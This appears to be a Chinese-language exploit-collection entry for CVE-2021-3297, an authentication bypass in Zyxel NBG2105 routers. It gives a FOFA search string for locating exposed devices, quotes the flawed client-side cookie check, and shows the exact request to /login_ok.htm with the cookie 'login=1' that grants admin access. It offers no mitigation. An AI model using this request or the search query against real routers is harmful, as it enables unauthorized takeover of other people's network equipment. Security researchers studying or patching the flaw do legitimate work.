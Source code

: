 # Zyxel NBG2105 身份验证绕过 CVE-2021-3297

## 漏洞描述

Zyxel NBG2105 存在身份验证绕过，攻击者通过更改 login参数可用实现后台登陆

## 漏洞影响

> [!NOTE]
>
> Zyxel NBG2105

## FOFA

> [!NOTE]
>
> app="ZyXEL-NBG2105"

## 漏洞复现

登录页面如下

![](Zyxel%20NBG2105%20身份验证绕过%20CVE-2021-3297/resource/Zyxel-NBG2105-身份验证绕过-CVE-2021-3297/media/1.png)

其中前端文件 **/js/util_gw.js** 存在前端对 Cookie login参数的校验

![](Zyxel%20NBG2105%20身份验证绕过%20CVE-2021-3297/resource/Zyxel-NBG2105-身份验证绕过-CVE-2021-3297/media/2.png)

可以看到检测到 Cookie中的 **login=1** 则跳转 home.html

```
function setCookie() //login_ok.htm use
{
	document.cookie="login=1";
	MM_goToURL('parent', 'home.htm');
}
```

请求如下则会以管理员身份跳转到 **home.htm页面**

```
http://xxx.xxx.xxx.xxx/login_ok.htm

Cookie: login=1;
```

![](Zyxel%20NBG2105%20身份验证绕过%20CVE-2021-3297/resource/Zyxel-NBG2105-身份验证绕过-CVE-2021-3297/media/3.png)

## 参考文章

https://github.com/nieldk/vulnerabilities/blob/main/zyxel%20nbg2105/Admin%20bypass